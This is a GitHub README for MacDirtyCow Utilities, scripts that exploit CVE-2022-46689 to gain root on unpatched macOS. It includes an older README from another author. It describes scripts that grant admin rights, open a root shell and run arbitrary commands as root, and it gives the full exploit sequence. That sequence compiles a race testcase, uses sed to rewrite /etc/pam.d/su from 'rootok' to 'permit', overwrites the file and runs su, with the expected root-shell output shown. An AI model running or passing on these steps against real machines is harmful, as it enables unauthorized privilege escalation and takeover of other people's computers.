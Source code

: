 # MacDirtyCow Utilities

Scripts to get elevated access using [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (MacDirtyCow).

## Compatability
MacDirtyCow supports the following versions:
- macOS 13.0.1 or under in Ventura
- macOS 12.6.1 or under in Monterey
- macOS 11.7.1 or under

These scripts may get updated to support later versions using [kfd](https://github.com/felix-pb/kfd) ([CVE-2023-23536](https://support.apple.com/en-us/HT213676) and [CVE-2023-32434](https://support.apple.com/en-us/HT213814)), but it is not planned at this time.

### [get_admin.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/get_admin.command)
This script will allow you to set any user as admin.

### [root_shell.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/root_shell.command)
This script will open a shell session as root.

### [elevate.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/elevate.command)
This script take parameters and runs them as root.

Examples:
```bash
./elevate.command "cat /etc/sudoers"
./elevate.command "echo \"This command is ran as root\"" "ls /private/var/networkd/Library/Preferences"
```

## Credits
- [MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo) to overwrite read-only files without root access

# Original README.md

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
